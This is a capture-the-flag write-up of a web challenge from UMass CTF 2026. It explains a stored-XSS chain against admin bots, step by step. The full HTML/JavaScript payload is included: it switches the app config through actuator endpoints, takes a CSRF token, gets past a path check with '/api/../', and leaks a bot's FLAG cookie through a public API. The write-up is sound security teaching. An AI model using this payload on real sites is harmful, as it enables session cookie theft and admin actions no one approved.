

# The Block City Times — UMass CTF 2026

> **Room / Challenge:** The Block City Times (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** UMass CTF 2026
- **Challenge:** The Block City Times (web)

---

<p align="center"></p>

## Goal

Trigger the flag bot to expose their flag.

## My Solution

Download the source here: [source.zip](https://github.com/jameskaois/ctf-writeups/raw/refs/heads/main/umass-ctf-2026/The%20Block%20City%20Times/source.zip).

Inspecting the source, I get a clear exploit chain by leveraging **Stored XSS**. The flag is stored in the cookie of the bot (who has the admin username and password) (`/developer/report-api.js`).

The intended solve is:

1. Submitting a malicious file that pass the server-side content-type check (only text/plain or application/pdf is acceptable)
2. The app will submit the file to `editorial` service and a bot with admin credentials will visit the file through `/file/<filename>`.
3. Trigger first-stage XSS to switch the app to **dev** mode and trigger internal report feature of the bot keeping the flag.
4. Make the **report-runner** bot load the same malicious file.
5. Read the `FLAG` cookie inside the report bot and store it somewhere public.
6. Get access to it.

Note:

- The first bot in `editorial` service isn't the bot keeping the flag, it is the bot that is used to switch the app from **production** mode to **dev** mode by using the `/actuator` endpoints.
- The `/admin/report` feature bans endpoints starting with `/api`. To bypass use this `/api/../files/<real-filename>` to bypass the check.
- `/admin/report` endpoint check CSRF value, therefore achieve the CSRF token first to avoid errors.

Malicious `payload.html` to submit:

```html
<!doctype html>
<html>
  <body>
    <script>
      (async () => {
        const sleep = (ms) => new Promise((r) => setTimeout(r, ms));
        const filename = location.pathname.split("/").pop();
        const flagMatch = document.cookie.match(/(?:^|;\s*)FLAG=([^;]+)/);

        // Stage 2: running inside report-runner bot
        if (flagMatch) {
          const flag = decodeURIComponent(flagMatch[1]);
          await fetch("/api/tags/article/1", {
            method: "PUT",
            headers: { "Content-Type": "application/json" },
            body: JSON.stringify([flag]),
          });
          return;
        }

        // Stage 1: running inside editorial admin bot (change the app mode from prod to dev)
        await fetch("/actuator/env", {
          method: "POST",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify({
            name: "app.active-config",
            value: "dev",
          }),
        });

        await fetch("/actuator/refresh", { method: "POST" });
        await sleep(1500);

        const adminPage = await fetch("/admin", {
          credentials: "include",
        }).then((r) => r.text());
        const m = adminPage.match(/name="_csrf"\s+value="([^"]+)"/);
        const csrf = m ? m[1] : "";

        const form = new URLSearchParams();
        form.set("_csrf", csrf);
        form.set("endpoint", "/api/../files/" + filename);

        await fetch("/admin/report", {
          method: "POST",
          credentials: "include",
          headers: { "Content-Type": "application/x-www-form-urlencoded" },
          body: form.toString(),
        });
      })();
    </script>
  </body>
</html>
```

After submitting, wait for a enough time, then read the flag through `/api/tags/article/1` where the content is changed to flag by the flag bot.
